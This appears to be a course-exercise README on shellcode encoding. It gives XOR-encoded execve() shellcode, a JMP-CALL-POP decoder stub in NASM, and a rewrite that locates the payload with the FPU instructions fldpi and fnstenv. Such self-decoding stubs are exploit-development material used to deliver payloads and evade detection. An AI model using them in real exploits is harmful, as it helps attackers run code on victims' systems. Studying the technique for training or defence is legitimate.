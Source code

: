 # SLAE-FPU_Instructions_Rewrite
Using FPU instructions rewriting the XOR decoder assembly in SLAE course

The orginal execve() shellcode that's been XOR encoded with 0xAA value
---

```
0x9b,0x6a,0xfa,0xc2,0x85,0x85,0xd9,0xc2,0xc2,0x85,0xc8,0xc3,0xc4,0x23,0x49,0xfa,0x23,0x48,0xf9,0x23,0x4b,0x1a,0xa1,0x67,0x2a
```

The XOR decoder nasm 
---
```
; Filename: xor-decoder.nasm
global _start			

section .text
_start:

	jmp short call_decoder

decoder:
	pop esi
	xor ecx, ecx
	mov cl, 25


decode:
	xor byte [esi], 0xAA
	inc esi
	loop decode

	jmp short Shellcode



call_decoder:

	call decoder
	Shellcode: db 0x9b,0x6a,0xfa,0xc2,0x85,0x85,0xd9,0xc2,0xc2,0x85,0xc8,0xc3,0xc4,0x23,0x49,0xfa,0x23,0x48,0xf9,0x23,0x4b,0x1a,0xa1,0x67,0x2a
```
This XOR decoder using JMP-CALL-POP technique to get the address of the shellcode and decoding with 0xAA.

Rewriting this with FPU instructions
---
```
; Filename: fpu-xor-decoder.nasm

global _start			

section .text
_start:
	
	xor ecx, ecx
	mov cl, 25
	fldpi
	fnstenv [esp-0xc]
	pop esi

decode:

	xor byte [esi+0x10], 0xAA
	inc esi
	loop decode
	
	jmp short Encoded

Shellcode:
	Encoded: db 0x9b,0x6a,0xfa,0xc2,0x85,0x85,0xd9,0xc2,0xc2,0x85,0xc8,0xc3,0xc4,0x23,0x49,0xfa,0x23,0x48,0xf9,0x23,0x4b,0x1a,0xa1,0x67,0x2a
```
FPU Instructions:
- fnstenv will store the address of last FPU instructions onto the destination

In our case fnstenv will store the environments at esp-0xc, which will luckily allow us to get the instruction pointer at address of esp after fnstenv instruction.

Refer to: ![]('./FPU_State_Image.png')
According to Intel FPU state image in momery, the instruction pointer offset is at the position of third double word. 
pop esi will get the address of fldpi

Figuring out the number of byte from fldpi to Encoded shellcode will be our last step. 


